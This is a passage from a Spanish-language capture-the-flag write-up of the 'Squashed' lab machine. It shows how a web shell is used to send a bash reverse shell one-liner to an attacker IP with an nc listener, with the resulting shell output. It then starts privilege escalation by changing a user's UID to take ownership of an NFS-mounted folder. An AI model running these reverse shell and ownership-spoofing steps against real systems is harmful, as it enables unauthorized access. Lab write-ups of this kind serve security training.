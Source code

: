 
Al revisar dentro de la web, se puede observar que se cuenta con una **RCE** (Ejecución Remota de Código), lo que permite ganar una **shell reversa** dentro del equipo víctima.


![webshell](/squashed/webshell.png)


Para esto es necesario ponerse a la escucha con `nc` para ganar la conexión.

```bash
nc -lvp 1234
```
{: .nolineno}


Dentro de la web shell, se puede enviar el siguiente comando para lanzar la **shell reversa**.


```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.14/1234 <&1'
```
{: .nolineno}



Y se gana la **shell** dentro del equipo.

```bash
nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from 10.10.11.191 [10.10.11.191] 50516
bash: cannot set terminal process group (1084): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ 
```
{: .nolineno}


## Escalada de Privilegios


Por otro lado, es importante tener en cuenta que aún hay una carpeta que cuenta con la misma **vulnerabilidad** de las **monturas**, por lo que es crucial revisarla para verificar si contiene alguna **información sensible**. En este sentido, se le cambia el **identificador** a **pepito** para que ahora sea el **dueño** de la web.


```bash
drwxr-xr-- pepito www-data 4.0 KB Thu Jan 11 21:55:01 2024  html
drwxr-xr-x 1001   pepito   4.0 KB Thu Jan 11 18:15:47 2024  ross
```
{: .nolineno}



```bash
usermod -u  1001  pepito
```
{: .nolineno}


